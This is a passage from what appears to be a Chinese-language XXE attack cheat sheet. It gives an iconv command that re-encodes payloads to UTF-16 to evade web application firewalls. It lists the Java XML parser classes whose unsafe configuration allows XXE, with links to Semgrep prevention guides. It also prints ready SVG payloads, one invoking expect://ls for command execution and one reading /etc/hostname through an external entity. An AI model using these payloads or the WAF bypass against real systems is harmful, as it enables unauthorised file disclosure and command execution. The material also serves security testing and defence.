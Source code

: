 **示例**：我们可以使用[iconv](https://man7.org/linux/man-pages/man1/iconv.1.html)将有效负载转换为`UTF-16`以绕过某些WAF：

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

## Java中的XXE

来自三个XML处理接口（DOM、SAX、StAX）的10个不同Java类中的不安全配置可能导致XXE：

![XXE Java安全功能概览信息图表](https://semgrep.dev/docs/assets/images/cheat-sheets-xxe-java-infographics-1d1d5016802e3ab8f0886b62b8c81f21.png)

- [DocumentBuilderFactory (javax.xml.parsers.DocumentBuilderFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3a-documentbuilderfactory)
- [SAXBuilder (org.jdom2.input.SAXBuilder)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3b-saxbuilder)
- [SAXParserFactory (javax.xml.parsers.SAXParserFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3c-saxparserfactory)
- [SAXParser (javax.xml.parsers.SAXParser )](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3d-saxparser)
- [SAXReader (org.dom4j.io.SAXReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3e-saxreader)
- [TransformerFactory (javax.xml.transform.TransformerFactory) & SAXTransformerFactory (javax.xml.transform.sax.SAXTransformerFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3f-transformerfactory--saxtransformerfactory)
- [SchemaFactory (javax.xml.validation.SchemaFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3g-schemafactory)
- [Validator (javax.xml.validation.Validator)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3h-validator)
- [XMLReader (org.xml.sax.XMLReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3i-xmlreader)

参考

- [Semgrep - Java中的XML安全性](https://semgrep.dev/blog/2022/xml-security-in-java)
- [Semgrep - Java的XML外部实体预防](https://semgrep.dev/docs/cheat-sheets/java-xxe/)

## 异域文件中的XXE

### SVG中的XXE

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**经典**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
